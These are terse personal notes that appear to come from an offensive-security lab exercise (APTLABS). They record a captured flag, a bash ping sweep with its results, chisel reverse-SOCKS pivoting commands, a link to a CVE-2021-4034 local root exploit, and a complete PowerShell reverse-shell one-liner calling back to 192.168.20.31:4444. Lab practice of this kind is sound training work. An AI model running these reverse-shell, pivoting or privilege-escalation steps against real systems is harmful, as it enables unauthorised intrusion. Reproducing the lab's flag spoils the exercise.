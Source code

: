 after logging in through creds

APTLABS{M@lTiF@cT0R_PhI$h!nG}

---
also internal ip is 192.168.20.31

ping sweep gives
for i in {1..254}; do ping -c 1 -W 100 192.168.20.$i | grep 'time='; done
64 bytes from 192.168.20.1: icmp_seq=1 ttl=64 time=0.278 ms
64 bytes from 192.168.20.10: icmp_seq=1 ttl=128 time=0.668 ms
64 bytes from 192.168.20.15: icmp_seq=1 ttl=128 time=0.485 ms
64 bytes from 192.168.20.31: icmp_seq=1 ttl=64 time=0.061 ms

with pivoting chisel

/usr/bin/chisel server -p 8000 --reverse on vpn
./chisel client 10.10.14.95:8000 R:socks on server

---
probably 4 dockers ruiing 4 sites
9100
5000
443
8000
8080

---
https://github.com/berdav/CVE-2021-4034
root

$client = New-Object System.Net.Sockets.TCPClient('192.168.20.31',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()